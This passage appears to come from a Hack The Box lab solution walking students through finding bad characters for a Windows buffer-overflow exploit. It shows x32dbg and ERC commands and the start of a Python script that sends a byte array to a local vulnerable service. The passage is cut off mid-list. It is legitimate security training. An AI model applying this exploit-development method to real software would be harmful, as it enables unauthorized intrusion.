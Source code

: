 ```python
    s.close()

badCharacters()
```

![[HTB Solutions/Others/z. images/5643f09021968a4587e8dd3d5e697e3b_MD5.jpg]]

Within `x32dbg`, students need to click the `Reset` button so that it closes the crashed `win32bof` binary and run it again. Subsequently, students need to run the Python script, to then compare the input in memory to all characters using `ERC`. First, students need to copy the address of `ESP`, which is `00F8FB48`:

![[HTB Solutions/Others/z. images/9108c59864c52a75352823b35424f8c7_MD5.jpg]]

Then, students need to use the `--compare` option of `ERC` on the `ESP` address and the location of the `.bin` file that contains all characters generated earlier:

![[HTB Solutions/Others/z. images/93d290ee7b6695ca6fb4377c36f531d6_MD5.jpg]]

Code: powershell

```powershell
ERC --compare 00F8FB48 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

Students will notice that `0` (i.e., `0x00`) is a bad character since it truncated the rest of the input:

![[HTB Solutions/Others/z. images/102c2551fb0d54203eaf48bb87c99573_MD5.jpg]]

Now, students need to repeat the same steps above two times. First, students need to exclude the bad character `0x00` from the byte array that `ERC` generates:

Code: powershell

```powershell
ERC --bytearray -bytes 0x00
```

![[HTB Solutions/Others/z. images/3bb1fee764984c814210e0d7d37e35d8_MD5.jpg]]

Then, students need to use the same Python script as before, however, they also need to remove `0x00`:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def badCharacters():
    characters = bytes([0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
```